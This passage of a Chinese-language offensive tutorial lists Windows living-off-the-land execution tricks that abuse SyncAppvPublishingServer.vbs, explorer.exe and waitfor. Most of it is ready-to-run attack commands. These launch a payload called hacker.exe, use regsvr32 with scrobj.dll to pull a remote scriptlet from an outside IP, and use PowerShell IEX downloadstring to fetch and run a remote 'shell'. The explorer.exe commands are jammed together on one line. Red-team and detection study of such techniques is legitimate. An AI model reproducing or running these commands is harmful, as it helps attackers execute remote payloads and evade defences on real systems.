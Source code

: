 SyncAppvPublishingServer
为启动Microsoft应用程序虚拟化（App-V）发布刷新操作，在下面的示例中，将在powershell中执行， Start-Process
cmdlet用于运行可执行文件。



命令：

  * 

    
    
    SyncAppvPublishingServer.vbs "n; Start-Process C:\tmp\hacker.exe"

由于SyncAppvPublishingServer将执行双引号中包含的所有内容，因此还可以使用“ regsvr32 ”方法从远程位置执行恶意有效负载。



命令：

  * 

    
    
    SyncAppvPublishingServer.vbs "Break; regsvr32 /s /n /u /i:http://192.168.73.136:8080/jnQl1FJ.sct scrobj.dll"

  

Explorer:



可以将explorer.exe 用作执行方法。执行的有效负载将在系统上创建一个进程，该进程将把explorer.exe作为父进程。



命令：

  * 

    
    
    explorer.exe C:\tmp\hacker.exeexplorer.exe /root,"C:\tmp\hacker.exe"explorer.exe 0XAXSDD-Hacker, "C:\tmp\hacker.exe"

Waitfor：



waitfor是Microsoft二进制文件，用于通过发送信号来跨网络同步计算机，也可用于执行任意命令或下载有效载荷。



命令：

  *   * 

    
    
    waitfor hacker && PowerShell IEX(new-object net.webclient).downloadstring('http://192.168.73.136:8080/shell');waitfor /s 127.0.0.1 /si hacker

![](https://gitee.com/fuli009/images/raw/master/public/20210818090727.png)

当然这里只总结了一些，也没总结完，但也值得学习与思考，希望能给你一个好的思路！ ****

  

  
